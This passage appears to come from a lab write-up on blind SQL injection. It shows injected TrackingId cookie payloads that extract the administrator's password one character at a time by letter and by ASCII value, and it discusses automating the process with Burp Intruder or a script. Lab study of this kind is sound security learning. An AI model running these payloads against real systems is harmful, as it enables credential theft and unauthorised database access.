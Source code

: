 ### Does the first password letter start with `"a"`
```sql
TrackingId=non-existent' OR (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --
```

![picture 34](/assets/images/5a33885f550c5811585c5e22f632ea297b5b9bbd17ecf4445ed087522af0d01a.png)  

Answer: yes it does.

### Can we ask for for next character in users password using ascii (numbers) instead?

Yes we can. We're asking for ASCII value 97.

![picture 35](/assets/images/c765f2076bc9a9a1703da86113be72423de408c6f5e4cf014a6bd7ffe7ae8933.png)  

```sql
TrackingId=non-existent' OR (ascii(substring((SELECT password FROM users WHERE username = 'administrator'),1,1)))=97 --
```

> So this is how we would go on when dumping the contents of the database. We would need to keep asking if that's the character in that position etc.
> 
> This is doable with Burp Intruder, however i don't know how to really display the password in a right way at the end. I've tried to do so in the next chapter, i've however used a script that does that for me. Anyways...
> 
> Dumping the database using Blind SQLInjection is very tedious so it's good to know what we're looking for exactly.
